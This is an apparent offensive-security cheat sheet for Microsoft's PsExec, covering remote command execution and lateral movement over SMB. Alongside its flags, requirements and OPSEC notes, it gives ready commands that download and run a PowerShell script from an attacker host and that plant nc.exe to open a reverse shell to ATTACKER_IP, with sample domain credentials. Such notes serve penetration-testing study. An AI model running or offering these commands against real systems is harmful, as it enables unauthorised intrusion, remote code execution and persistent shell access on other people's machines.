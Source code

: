 PsExec is a very versatile tool that is part of the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/) suite developed by Mark Russinovich. It's intended to replace telnet-like applications and provide remote execution of processes on other systems through an interactive console.
Here's a concise PsExec cheat sheet tailored for offensive security operations:

---

### **PsExec Cheat Sheet**  
*For remote command execution and lateral movement via SMB*

---

### **1. Basic Syntax**  
```powershell
./PsExec64.exe \\TARGET -u DOMAIN\user -p password [options] <command>
```

---

### **2. Common Flags**  
| **Flag** | **Description**                                  |
|----------|--------------------------------------------------|
| `-i`     | Interactive session (desktop interaction)        |
| `-s`     | Run as SYSTEM account                            |
| `-d`     | Don't wait for process to exit                   |
| `-c`     | Copy local file to remote system                 |
| `-h`     | Run with elevated token (admin privileges)       |
| `-accepteula` | Bypass EULA prompt                          |

---

### **3. Common Use Cases**  
**A. Spawn interactive CMD:**  
```powershell
./PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
```

**B. Run single command:**  
```powershell
./PsExec64.exe \\192.168.1.10 -u admin -p Passw0rd! hostname
```

**C. Execute PowerShell payload:**  
```powershell
./PsExec64.exe \\TARGET -u user -p pass powershell -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/script.ps1')"
```

**D. File transfer + execution:**  
```powershell
./PsExec64.exe -c \\TARGET -u user -p pass C:\Tools\nc.exe "C:\Windows\Temp\nc.exe -e cmd ATTACKER_IP 443"
```


### **4. Key Requirements**  
- TCP 445 (SMB) access  
- Target must have Admin$ share enabled  
- User credentials with local admin privileges  
- PsExec allowed by AV/EDR (whitelisted in many environments)

---

### **5. OPSEC Considerations**  
❗ Leaves logs in `Security` event log (Event ID 4688)  
❗ Cleartext credentials in command-line arguments  
✅ Prefer `-s` to inherit SYSTEM context  
